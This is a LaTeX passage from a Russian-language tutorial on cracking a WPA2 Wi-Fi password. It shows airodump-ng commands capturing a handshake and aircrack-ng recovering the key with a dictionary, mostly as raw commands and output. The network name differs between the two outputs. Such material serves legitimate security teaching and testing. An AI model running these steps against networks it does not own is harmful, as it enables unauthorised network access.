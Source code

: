 \documentclass[10pt,a4paper]{report}
\begin{document}
В результате перехватываем пакет handshake:
\begin{lstlisting}
root@kali:~# airodump-ng wlan0mon --bssid 6C:19:8F:CC:01:90 -c 1 --write dump --ignore-negative-one
 CH  1 ][ Elapsed: 1 min ][ 2016-05-21 13:28 ][ WPA handshake: 6C:19:8F:CC:01:90
                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                               
 6C:19:8F:CC:01:90  -35 100      623     5574  166   5  54 . WPA2 CCMP   PSK  room421                                                
                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                           
                                             
 D8:5D:4C:DA:F8:2E  D8:E5:6D:94:90:46  -49   54 - 6      0      126  HomeWiFi                                                          
 D8:5D:4C:DA:F8:2E  FC:F8:AE:DA:5D:18  -51   54 -48      3     5129         
\end{lstlisting}
Произведем взлом используя словарь паролей.
Для того, что бы взлом происходил быстрее, создадим свой словарь паролей 
(dictionary.dic).
\begin{lstlisting}
root@kali:~# aircrack-ng dump-01.cap -w dictionary.dic 
Opening dump-01.cap
Read 33260 packets.

   #  BSSID              ESSID                     Encryption

   1  6C:19:8F:CC:01:90  HomeWiFi                   WPA (1 handshake)

Choosing first network as target.

Opening dump-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 beta3


                   [00:00:00] 1 keys tested (358.84 k/s)


                         KEY FOUND! [ ********* ]


      Master Key     : F9 C3 60 85 42 26 AB 6E 15 80 8D 73 A7 1A 76 63 
                       45 FC B0 FD A5 FD 58 24 8A CB 80 38 3C 21 C6 BA 

      Transient Key  : 49 13 7A 7D CF E4 00 FC AA 8C DB 8A 58 AC 7F DF 
                       D5 FF 15 6A AC 4D D2 D1 F7 B4 02 69 37 F7 22 AE 
                       4B E7 B3 53 B9 53 24 18 49 48 56 6B 1C BB 1A FE 
                       C4 BA 3A 08 E5 98 6D 96 AF 25 64 0B 25 D4 03 A9 

      EAPOL HMAC     : 7D 59 5E 9F AE 1B 7A 1D B5 F6 3A 75 75 51 C2 76 

\end{lstlisting}
В результате видим сообщение об успешно подобранном пароле, а так же сам пароль.
\end{document}
